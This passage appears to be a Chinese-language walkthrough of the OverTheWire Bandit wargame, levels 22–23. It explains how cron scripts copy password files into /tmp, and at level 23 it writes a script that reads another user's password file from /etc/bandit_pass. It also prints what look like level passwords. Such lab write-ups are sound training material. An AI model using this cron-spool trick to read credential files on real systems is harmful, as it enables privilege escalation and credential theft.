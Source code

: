     #!/bin/bash

    myname=$(whoami)
    mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

    echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

    cat /etc/bandit_pass/$myname > /tmp/$mytarget

    #把I am user bandit23 md5sum一下再切割取第一列，打开对应文件就会有内容

    #/tmp/8ca319486bfbbc3663ea0fbe81326349

    cat /tmp/8ca319486bfbbc3663ea0fbe81326349

    #jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

    ```

# level 23

>这关需要自己写一个脚本，运行一次就会消失的，记得保存一下代码

>https://blog.csdn.net/winkar/article/details/38408873----->需要注意的是，用于写入的这个文件必须是一个bandit24拥有写权限的文件，我一开始因为指定了一个已经存在但没有写权限的文件，挣扎了很久都读不出结果。而/dev/null吃掉了所有的错误提示，更加需要自己的谨慎。

* stat

    显示文件或文件系统的状态

* 步骤

    ``` 
    #!/bin/bash

    myname=$(whoami)

    cd /var/spool/$myname
    echo "Executing and deleting all scripts in /var/spool/$myname:"
    for i in * .*;
    do
        if [ "$i" != "." -a "$i" != ".." ];
        then
            echo "Handling $i"
            owner="$(stat --format "%U" ./$i)"
            if [ "${owner}" = "bandit23" ]; then
                timeout -s 9 60 ./$i
            fi
            rm -f ./$i
        fi
    done

    脚本

    #!/bin/bash
    cat /etc/bandit_pass/bandit24 > /tmp/pass24 && chmod 777 /tmp/pass24
    

    #UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
